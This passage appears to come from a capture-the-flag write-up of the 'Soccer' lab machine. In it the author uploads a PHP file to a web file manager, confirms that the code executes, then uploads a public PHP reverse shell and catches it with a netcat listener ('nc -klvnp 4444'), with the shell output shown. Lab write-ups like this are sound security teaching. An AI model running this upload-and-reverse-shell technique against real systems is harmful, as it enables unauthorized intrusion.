 ![Logged In](/assets/images/2023/06/Soccer/LoggedIn.png "Logged In")

The application allowed uploading files. My first attempts were rejected because I could not write to the webroot. I looked in the '/tiny' folder and saw an '/upload' folder. I tried to upload a PHP file there.

![Uploaded File](/assets/images/2023/06/Soccer/UploadedFile.png "Uploaded File")

Once the file was uploaded, I clicked on the 'Open' link to view the file. It opened and printed only 'IN', which confirmed that the code was executed.

I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell), started a Netcat listener, and opened the uploaded file.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.194] 52404
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 23:51:48 up 11:57,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data
```
